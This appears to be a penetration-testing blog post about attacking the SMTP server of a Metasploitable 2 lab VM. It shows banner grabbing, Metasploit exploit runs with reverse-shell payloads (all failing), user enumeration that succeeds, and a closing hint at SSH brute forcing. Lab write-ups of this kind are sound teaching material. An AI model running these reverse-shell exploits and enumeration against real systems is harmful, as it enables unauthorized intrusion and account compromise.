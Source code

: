 <!--hacking, metasploit, smtp-->
# Mailploitation

For this post I will target the SMTP server running on the Metasploitable 2 VM I have set up as my target. By now my approach
should be clear:

1. Identify target
2. Find vulnerability
3. Craft exploit
4. ???
5. Profit!

Let's see if I can apply the same tactic again!

## The target and vulnerability

This time I am going to target the SMTP server running on the target (IP 192.168.56.103) :

    25/tcp    open  smtp        Postfix smtpd
    
Now I want to find a vulnerability for this service. I don't have version number so first I am going to attempt to 
find out some more information about the service. A regular banner grabbing with `nc` can reveal a lot of information. There is 
a metasploit module for SMTP banner grabbing as well `auxiliary/scanner/smtp/smtp_version` but `msfconsole` is slow to load
so I rather do it with `nc`:
    
    # nc 192.168.56.103 25
    220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
    
That doesn't really tell me anything I didn't already know. As a side note, this technique (or similar) also works for other protocols
for example FTP, SSH and HTTP. So the next step is to fire up `msfconsole` and do a search:

    msf > search smtp postfix

    Matching Modules
    ================

     Name                                        Disclosure Date  Description
     ----                                        ---------------  -----------
     auxiliary/client/smtp/emailer                                Generic Emailer (SMTP)
     auxiliary/dos/smtp/sendmail_prescan         2003-09-17       Sendmail SMTP Address prescan Memory Corruption
     auxiliary/fuzzers/smtp/smtp_fuzzer                           SMTP Simple Fuzzer
     auxiliary/scanner/smtp/smtp_enum                             SMTP User Enumeration Utility
     auxiliary/scanner/smtp/smtp_relay                            SMTP Open Relay Detection
     auxiliary/scanner/smtp/smtp_version                          SMTP Banner Grabber
     auxiliary/server/capture/smtp                                Authentication Capture: SMTP
     auxiliary/vsploit/pii/email_pii                              VSploit Email PII
     exploit/linux/misc/gld_postfix              2005-04-12       GLD (Greylisting Daemon) Postfix Buffer Overflow
     exploit/linux/smtp/exim4_dovecot_exec       2013-05-03       Exim and Dovecot Insecure Configuration Command Injection
     exploit/unix/smtp/clamav_milter_blackhole   2007-08-24       ClamAV Milter Blackhole-Mode Remote Code Execution
     exploit/unix/smtp/exim4_string_format       2010-12-07       Exim4 string_format Function Heap Buffer Overflow
     exploit/unix/webapp/squirrelmail_pgp_plugin 2007-07-09       SquirrelMail PGP Plugin Command Execution (SMTP)

In this output I have removed everything that is windows related and instead of removing the disclosure date I removed the ranking. Since
the disclosure date will play a role later on.

For let's focus on the exploits for now. How can I figure out if an exploit is applicable to the running server without trying everything?
Well the is where the disclosure date comes in handy. But first, one interesting question is if we can apply a UNIX exploit to a Linux 
system. The answer is: it depends. You might be able to use a UNIX exploit or cmd on a Linux target, the only way to find out is to
try or read the source for the exploit. Now back to the dates, from a previous `nmap` scan we know that a bit about the OS:

    Running: Linux 2.6.X
    OS CPE: cpe:/o:linux:linux_kernel:2.6
    OS details: Linux 2.6.9 - 2.6.33
    
Linux 2.6.33 was released 24 February 2010, so by this date we can begin our search. 
A single exploit was released that year so let's try that:

    msf  > use exploit/unix/smtp/exim4_string_format
    msf exploit(exim4_string_format) > set RHOST 192.168.56.103 
    RHOST => 192.168.56.103
    msf exploit(exim4_string_format) > set payload cmd/unix/reverse_ruby
    payload => cmd/unix/reverse_ruby
    msf exploit(exim4_string_format) > set LHOST 192.168.56.102 
    LHOST => 192.168.56.102
    msf exploit(exim4_string_format) > exploit

    [*] Started reverse handler on 192.168.56.102:4444 
    [*] Connecting to 192.168.56.103:25 ...
    [*] Server: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
    [-] Exploit failed [no-target]: The target server is not running Exim!
    
So the target is not running Exim. This means that I can remove two exploits from the list, I can also remove the web app exploit 
(unrelated to Exim) so the remaining exploits are:
    
* `exploit/linux/misc/gld_postfix`
* `exploit/unix/smtp/clamav_milter_blackhole`

Let's try both:

    msf > use exploit/linux/misc/gld_postfix
    msf exploit(gld_postfix) > set RHOST 192.168.56.103
    RHOST => 192.168.56.103
    msf exploit(gld_postfix) > set RPORT 25
    RPORT => 25
    msf exploit(gld_postfix) > set payload linux/x86/shell/reverse_tcp 
    payload => linux/x86/shell/reverse_tcp     
    msf exploit(gld_postfix) > set LHOST 192.168.56.102 
    LHOST => 192.168.56.102
    msf exploit(gld_postfix) > exploit
    
    [*] Started reverse handler on 192.168.56.102:4444 

And nothing else happens, this is usually a sign that the exploit doesn't work. Specifically when no payload produces a different result.
So I move to the last exploit:

    msf > use exploit/unix/smtp/clamav_milter_blackhole
    msf exploit(clamav_milter_blackhole) > set RHOST 192.168.56.103 
    RHOST => 192.168.56.103
    msf exploit(clamav_milter_blackhole) > set payload cmd/unix/reverse_ruby
    payload => cmd/unix/reverse_ruby
    msf exploit(clamav_milter_blackhole) > set LHOST 192.168.56.102 
    LHOST => 192.168.56.102
    msf exploit(clamav_milter_blackhole) > exploit

    [*] Started reverse handler on 192.168.56.102:4444 

The same result, also the same for each payload. So I can conclude that the service is not vulnerable to any of the exploits in metasploit.

## What else?

This attack seems to have failed so let's see what else I can do. Referring back to the list of available metasploit modules I see a module
for user enumeration. It's always good to get users so let's do that.

    msf > use auxiliary/scanner/smtp/smtp_enum 
    msf auxiliary(smtp_enum) > show options 

    Module options (auxiliary/scanner/smtp/smtp_enum):

       Name       Current Setting      Required  Description
       ----       ---------------      --------  -----------
       RHOSTS                          yes       The target address range or CIDR identifier
       RPORT      25                   yes       The target port
       THREADS    1                    yes       The number of concurrent threads
       UNIXONLY   true                 yes       Skip Microsoft bannered servers when testing unix users
       USER_FILE  *snip*               yes       The file that contains a list of probable users accounts.

The USER_FILE variable is set to: `/usr/share/metasploit-framework/data/wordlists/unix_users.txt`, I removed it from the above output 
since it looks horrible when it wraps on the blog. Now I set the required parameters and run it:

    msf auxiliary(smtp_enum) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(smtp_enum) > run

    [*] 192.168.56.103:25 Banner: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
    [+] 192.168.56.103:25 Users found: backup, bin, daemon,  distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, 
        man, news, nobody, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

I get 26 hits, the wordlist I used has:

    # cat /usr/share/metasploit-framework/data/wordlists/unix_users.txt | wc -l
    110

110 lines, so I can assume it works. So now that I have a set of users I can something devious with that information. 
Maybe brute force SSH or something like that, *wink wink*.
